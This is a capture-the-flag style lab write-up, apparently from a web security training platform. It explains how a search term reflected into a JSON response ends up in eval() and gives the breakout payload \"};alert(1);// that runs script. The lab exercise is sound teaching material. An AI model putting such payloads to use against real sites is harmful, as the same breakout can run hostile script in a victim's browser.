






# Reflected DOM XSS

This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

To solve this lab, create an injection that calls the `alert()` function.

---

## 1. Initial Probing

- Accessed the lab and found a simple search bar on the home page.


- Typed `Hello` into the search box and saw the input reflected back as plain text content — nothing interesting at this point.


- Tried a basic HTML injection using an anchor tag:

```html
<a href=#>Click me</a>
```

- Injected this into the search field, but the HTML wasn't rendered — it was reflected back as encoded/escaped text, not interpreted as a tag.



- Tried the same approach with an `` tag, but it was also reflected as-is without rendering.

---

## 2. Exploring Other Injection Points

- Decided to explore the application further by clicking into one of the blog posts, landing on `/post?postId=5`.
- Found a "Leave a comment" section below the post and tested for HTML injection there using the payload `<h1>Hello</h1>` in every field except `email`.
- The payload was reflected and rendered as literal text in the comment, not interpreted as HTML:



- Inspected the rendered comment further in DevTools and confirmed the injected markup was present in the DOM as escaped text, not as an actual `<h1>` element — so this sink was safely encoding output:




- Tried a few payloads aimed at breaking out of the anchor tag's `href` attribute using double quotes (`"`) and single quotes (`'`), but none of them worked either.

---

## 3. Digging Into the Front-End JavaScript

- Since surface-level payloads weren't landing anywhere, inspected the front-end code to understand how the search feature actually works.
- Opened `DevTools > Network`, filtered by `JS`, and reloaded the page. Found a relevant file: `/resources/js/searchResults.js`.



- Inspected its contents:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

        for (var i = 0; i < searchResults.length; ++i)
        {
            var searchResult = searchResults[i];
            if (searchResult.id) {
                var blogLink = document.createElement("a");
                blogLink.setAttribute("href", "/post?postId=" + searchResult.id);

                if (searchResult.headerImage) {
                    var headerImage = document.createElement("img");
                    headerImage.setAttribute("src", "/image/" + searchResult.headerImage);
                    blogLink.appendChild(headerImage);
                }

                blogList.appendChild(blogLink);
            }

            blogList.innerHTML += "<br/>";

            if (searchResult.title) {
                var title = document.createElement("h2");
                title.innerText = searchResult.title;
                blogList.appendChild(title);
            }

            if (searchResult.summary) {
                var summary = document.createElement("p");
                summary.innerText = searchResult.summary;
                blogList.appendChild(summary);
            }

            if (searchResult.id) {
                var viewPostButton = document.createElement("a");
                viewPostButton.setAttribute("class", "button is-small");
                viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);
                viewPostButton.innerText = "View post";
            }
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
```

- The vulnerable line jumped out immediately:

```javascript
eval('var searchResultsObj = ' + this.responseText);
```

- This builds a string by concatenating `"var searchResultsObj = "` with the **raw response body** from the search endpoint, then passes the whole thing to `eval()`, which executes it as JavaScript. Since the response body includes the user's own search term, this is a textbook `eval`-based DOM XSS sink — any JS we can smuggle into the response text gets executed by `eval`.

---

## 4. Understanding the Response Format

- Confirmed where this `search` function gets called by inspecting the DOM, finding it invoked directly from a script tag:

```html
<script src="/resources/js/searchResults.js"></script>
<script>search('search-results')</script>
```


- Searching for `Hello` triggers an XHR `GET` request to:

```
https://0a9000d803d6e24680e42b9e003c00dc.web-security-academy.net/search-results?search=Hello
```

- And the response comes back as JSON like:

```json
{"results":[],"searchTerm":"Hello"}
```

- The user's search input is reflected inside the `searchTerm` key of this JSON response — and since the entire response body gets passed straight into `eval()`, anything that breaks out of the `"searchTerm":"..."` string would be executed as raw JavaScript.

- To validate this understanding, ran a stripped-down version of the same logic directly in `DevTools > Console`, just logging the string instead of `eval`-ing it:

```javascript
var path = 'search-results';
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            //eval('var searchResultsObj = ' + this.responseText);
            //displaySearchResults(searchResultsObj);
            console.log('var searchResultsObj = ' + this.responseText);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();
```

- With `window.location.search` set to `?search=Hello`, this logged:

```
var searchResultsObj = {"results":[],"searchTerm":"Hello"}
```

- This confirmed exactly what string ends up inside `eval()`, making it easy to reason about how to break out of the JSON string.

---

## 5. Crafting the Breakout Payload

- Since the reflected value sits inside a JSON string literal that then gets `eval`'d as JavaScript, the goal was to close that string early and inject a new statement.
- First tried just a single backslash (`\`) as a search term to see what would break. This caused a console error:

```
Uncaught SyntaxError: Invalid or unexpected token
    at XMLHttpRequest.<anonymous> (searchResults.js:5:44)
```

- Clicking into the error's source (`VM118`) revealed the actual string that was being `eval`'d:

```javascript
var searchResultsObj = {"results":[],"searchTerm":"\"}
```

- This confirmed the escape worked — the backslash escaped the JSON's own closing quote, leaving a dangling, unterminated string, which is what caused the syntax error.
- Since the string could be broken out of, the next step was to make the resulting JavaScript syntactically valid again. Closing it cleanly with `\"};` produces:

```javascript
var searchResultsObj = {"results":[],"searchTerm":"\\"};"}
```

- With the breakout confirmed and a way to terminate the statement cleanly, built the final payload:

```
\"};alert(1);//
```

> **Why this works:** The server reflects the raw search term inside a JSON string (`"searchTerm":"<input>"`), and the front-end blindly `eval`s the entire response body as JavaScript. Injecting `\"` escapes the JSON string's closing quote (since `\"` inside an already-quoted JS string is interpreted as an escaped quote, not a string terminator), which lets `};` close out the original `var searchResultsObj = {...}` statement. From there, `alert(1);` executes as a fresh JavaScript statement, and the trailing `//` comments out anything that follows on the same line (the now-malformed remainder of the original JSON), preventing a syntax error from breaking execution.

---

## 6. Solve the Challenge

- Submitted the payload `\"};alert(1);//` in the search box.
- The browser sent the request, the server reflected the payload inside the JSON response, and `eval()` executed it as JavaScript — triggering the `alert(1)` popup.



- Lab solved.